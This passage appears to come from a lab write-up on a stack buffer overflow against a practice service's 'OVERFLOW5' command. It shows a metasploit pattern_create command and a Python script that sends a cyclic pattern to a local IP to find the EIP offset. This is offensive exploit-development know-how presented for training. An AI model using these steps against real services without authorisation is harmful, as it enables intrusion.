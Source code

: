 ------

## Finding the stack offset
To locate the memory address where the EIP is, I create a character pattern with the metasploit utility **pattern_create** with a length of 400.

```
> sudo /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

I make the specific modifications to the script.

```
import socket
import sys
from time import sleep

buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A"

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.104',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW5 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```
Launching the script.

```
> python eip.py
[*] Sending buffer
```
